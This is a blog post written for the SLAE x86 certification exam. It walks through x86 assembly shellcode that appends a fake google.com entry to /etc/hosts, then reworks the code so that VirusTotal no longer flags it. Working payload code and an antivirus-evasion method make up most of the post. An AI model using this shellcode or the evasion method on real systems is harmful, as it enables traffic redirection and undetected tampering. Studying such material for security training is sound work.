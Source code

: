 ```yaml
---
layout: post
title: "SLAE x86 Exam Part 6.2"
description: "SLAE x86 Exam Part 6.2: Polymorphic Shellcode #2"
modified: 2018-06-06T10:30:00-05:00
tags: [pentest, asm, x86, slae]
---
```


# Overview
This blog post has been created for completing the requirements of the
SecurityTube Linux Assembly Expert certification:

[http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](/http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)

Student ID: SLAE-1260

---

For the second part of this exam section, I chose a payload from Javier 
Tejedor[^1] whose purpose is to append a new entry to the local /etc/hosts 
file. Here's how it works:

{% highlight nasm %}
global _start
section .text

_start:
    xor ecx, ecx    ; Clear ECX
    mul ecx         ; Also clear EAX and EDX
    mov al, 0x5     ; OPEN
    push ecx        ; Null termination
    push 0x7374736f ; osts
    push 0x682f2f2f ; ///h
    push 0x6374652f ; /etc
    mov ebx, esp    ; Save pointer to file path
    mov cx, 0x401   ; O_APPEND|O_WRONLY 
    int 0x80        ; Exec interrupt

    xchg eax, ebx   ; Save FD to EBX
    push 0x4        ; Load WRITE syscall...
    pop eax         ; ...into EAX
    jmp short _load_data    ; Jump to _load_data

_write:
    pop ecx         ; Pop address of string into ECX
    push 21         ; Length: 21 chars
    pop edx         ; -> EDX
    int 0x80        ; Exec interrupt

    push 0x6        ; Load CLOSE syscall...
    pop eax         ; ...into EAX
    int 0x80        ; Exec interrupt

    push 0x1        ; Load EXIT syscall...
    pop eax         ; ...into EAX
    int 0x80        ; Exec interrupt

_load_data:
    call _write     ; Push address of string onto stack and call _write
    google db "127.1.1.1 google.com"
{% endhighlight %}

This one's a bit more involved than the first exercise: we're opening the
/etc/hosts file using flags `O_APPEND|O_WRONLY`, writing some text to it, 
closing the file, then exiting.  

Out of the box, we're looking at 78 bytes of shellcode and a single red light
on the VirusTotal[^2] dashboard, McAfee-GW-Edition. The author elected to use a
mix of JMP/CALL/POP and stacked-based string declarations. In my testing, I 
found that changing only one of these was sufficient to make VirusTotal happy.

## Initialization and OPEN

{% highlight nasm %}
xor ecx,ecx     ; Clear ECX
mul ecx         ; Also clear EAX and EDX
mov al,0x5      ; OPEN
push ecx        ; Push null termination
push 0x7374736f ; osts
push 0x682f2f2f ; ///h
push 0x6374652f ; /etc
mov ebx,esp     ; Save pointer to file path
mov cx,0x401    ; O_APPEND|O_WRONLY
int 0x80        ; Exec interrupt
{% endhighlight %}

There wasn't really anything to change in this section. With the exception of
the "/etc///hosts" path, there's nothing notable about the calls being made. I
played around with other methods for passing the file path to the OPEN syscall,
but ultimately left it as it was.

## WRITE and EXIT

{% highlight nasm %}
xchg eax,ebx    ; Save FD to EBX        
push 0x4        ; Load WRITE syscall...
pop eax         ; ...into EAX
push 0x6d6f632e ; .com
push 0x656c676f ; ogle
push 0x6f672031 ; 1 go
push 0x2e312e31 ; 1.1.
push 0x2e373231 ; 127.
mov ecx,esp     ; Save argument pointer
mov dl,0x14     ; Length: 20 chars
int 0x80        ; Exec interrupt
{% endhighlight %}


I refactored the JMP/CALL/POP to use the same stack-based method we saw for
the file path argument; this saved a few bytes.  I also made changes to how
the syscall IDs were being loaded in an effort to save a few bytes.
{% highlight nasm %}
mov al,0x6 ; previously push 0x6 / pop eax
int 0x80

inc al     ; previously push 0x1 / pop eax (CLOSE syscall returns 0 on success)
int 0x80        
{% endhighlight %}

Those changes, though minor, were enough to get the green light in 
VirusTotal[^3], and we dropped the payload size from 78 to 73 in the process!

## Screenshots

![Execution of Payload #2]({{ "/assets/images/6.2-poly2.png" | absolute_url}})

Next: [Payload #3](/slae-6-poly3)

---

[^1]: http://shell-storm.org/shellcode/files/shellcode-893.php
[^2]: https://www.virustotal.com/#/file/0b7d260f32379d7591a89f8f98398fe3184b4eec9ad890d2798c1719f9bc77b5/detection
[^3]: https://www.virustotal.com/#/file/6308247ee3ca478523eb68452e3c405f97547ec3d7e552966e4b48256aab6988/detection

